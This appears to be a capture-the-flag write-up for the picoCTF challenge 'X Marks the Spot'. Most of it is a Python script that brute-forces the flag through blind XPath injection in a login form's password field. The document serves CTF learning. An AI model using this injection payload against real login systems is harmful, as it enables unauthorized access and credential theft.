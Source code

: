 # X Marks the Spot

In this [video](https://www.youtube.com/watch?v=14eE7LSHlKc), explain how to make the code below and why it works. It is the same code in the video but with XPATH.

```python
import requests
import re

characters = '_abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}'
print(characters)

username = "admin"

url = 'http://mercury.picoctf.net:7029/'

session = requests.Session()

seen_password = 'picoCTF{'

while(True):
  for ch in characters:
    print('Trying password: ', seen_password + ch)

    password = "' or //*[contains(., '" + seen_password + ch + "')] or '1'='2"
    response = session.post(url, data={ "name": username, "pass": password })

    content = response.text

    if "on the right path" in content:
      print('Yes!')
      seen_password = seen_password + ch
      break
```
